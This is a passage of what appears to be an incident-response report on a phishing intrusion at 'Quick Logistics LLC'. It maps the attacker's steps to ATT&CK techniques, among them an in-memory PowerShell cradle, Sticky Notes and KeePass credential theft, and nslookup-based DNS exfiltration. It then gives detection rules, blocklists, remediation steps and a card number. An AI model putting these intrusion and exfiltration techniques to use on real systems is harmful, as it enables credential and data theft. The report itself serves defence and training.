| **Resource Development** | T1585.002 | Establish Accounts: Email Accounts | Setup of Elastic Email relay account with SPF/DKIM. |
| **Initial Access** | T1566.001 | Phishing: Spearphishing Attachment | Delivery of `Invoice.zip` to Finance employee. |
| **Execution** | T1204.002 | User Execution: Malicious File | Victim extracted archive and executed `Invoice_20230103.lnk`. |
| **Execution** | T1059.001 | Command and Scripting Interpreter: PowerShell | Hidden execution of in-memory download cradle. |
| **Defense Evasion** | T1027 | Obfuscated Files or Information | Password protection on ZIP; Base64 and Hex encoding. |
| **Defense Evasion** | T1036.004 | Masquerading: Masquerade Icon | `.lnk` file configured with `excel.ico`. |
| **Defense Evasion** | T1564.003 | Hide Artifacts: Hidden Window | PowerShell spawned with `-windowstyle hidden`. |
| **Discovery** | T1082 / T1083 | System Information / File Discovery | Execution of `Seatbelt.exe -group=user` to map host context. |
| **Credential Access** | T1552.001 | Unsecured Credentials: Local Files | Dumped Sticky Notes database (`plum.sqlite`) with `sq3.exe`. |
| **Collection** | T1005 | Data from Local System | Staged `protected_data.kdbx` via `[System.IO.File]::ReadAllBytes`. |
| **Command & Control** | T1071.001 | Application Layer Protocol: Web Protocols | In-memory polling loop over HTTP to `cdn.bpakcaging.xyz:8080`. |
| **Command & Control** | T1132.001 | Data Encoding: Standard Encoding | Space-delimited decimal ASCII byte encoding for command outputs. |
| **Exfiltration** | T1048.003 | Exfiltration Over DNS | Segmented hex data queries transmitted via `nslookup`. |

---

## 10. Detection Opportunities

### 10.1 Endpoint Detection (EDR / SIEM Rules)
1. **PowerShell Script Block Alert (EID 4104):**
   * Flag commands combining `[System.IO.File]::ReadAllBytes` with `ToString X2` (Hexadecimal conversion).
   * Flag execution of `Seatbelt.exe` or arguments containing `-group=user` / `-group=all`.
   * Alert on `iwr` / `Net.WebClient` downloading executable files into user-writable directories (`AppData`, `Music`, `Temp`).
2. **Process Creation Monitoring (EID 4688 / Sysmon EID 1):**
   * Alert when `powershell.exe` is spawned as a child process of `explorer.exe` with arguments `-enc` and `-windowstyle hidden`.
   * Monitor execution of `nslookup.exe` where query strings exceed 40 characters in length.

### 10.2 Network Intrusion Detection (Suricata / Snort)
* **DNS Length Anomaly:** Detect internal hosts issuing high volumes (>50 queries/minute) of DNS `A` queries with subdomains exceeding 40 characters.
* **Direct External DNS:** Alert on internal endpoints sending DNS queries directly to external IP addresses bypassing authorized internal corporate DNS resolvers.
* **Python SimpleHTTP Server Response:** Alert on HTTP traffic where the response header matches `Server: SimpleHTTP/.* Python/.*`.

---

## 11. Remediation and Action Plan

### 11.1 Immediate Containment Actions
1. **Financial Fraud Alert:** Immediately cancel Quick Logistics LLC corporate card `4024007128269551` and review merchant transactions from January 13, 2023 onward.
2. **Host Isolation:** Workstation `QL-WKSTN-5693` (`10.10.182.255`) isolated from network to prevent lateral movement.
3. **Enterprise Credential Revocation:** Rotate all passwords, API keys, and VPN credentials stored inside Julianne Westcott’s KeePass database.
4. **Firewall & DNS Blacklisting:**
   * Block domains: `bpakcaging.xyz`, `files.bpakcaging.xyz`, `cdn.bpakcaging.xyz`, `tracking.bpakcaging.xyz`.
   * Block IPs: `15.235.99.80`, `159.89.205.40`, `167.71.211.113`.
   * Enforce outbound UDP/TCP 53 firewall rules restricting egress DNS exclusively to corporate Active Directory domain controllers.

### 11.2 Strategic Long-Term Hardening
1. **Attack Surface Reduction (ASR):** Enforce Microsoft Defender ASR rule *Block executable content from email client and webmail* and *Block shortcut (.lnk) files from launching child processes*.
2. **PowerShell Constrained Language Mode (CLM):** Deploy CLM across all non-privileged workstations to neutralize unmanaged .NET reflection and fileless cradles.
3. **Application Control (WDAC / AppLocker):** Restrict execution from user-writable directories (`%APPDATA%`, `%TEMP%`, `C:\Users\*\Music`).
4. **Endpoint Secrets Governance:** Disable unencrypted local desktop notes applications (Sticky Notes) and mandate multi-factor enterprise password vaults (e.g., 1Password, Bitwarden Enterprise) with hardware security keys.

---

## 12. Lessons Learned

1. **User Awareness Gaps:** Attackers continue to successfully target finance departments by combining urgency with trusted partner spoofing. Training must emphasize verifying out-of-band payment requests and scrutinizing email sender domains.
2. **Local Application Storage Vulnerabilities:** Desktop note-taking applications (like Sticky Notes) represent a significant credential risk when employees record master passwords in unencrypted local databases. Organizations should enforce managed, enterprise-approved credential vaults with multi-factor authentication (MFA).
3. **DNS Remains a Critical Exfiltration Vector:** Standard web proxies and firewalls do not inspect DNS query labels by default. Deploying DNS-layer security (DNS sinkholing and query length anomaly detection) is essential to catching covert data exfiltration.
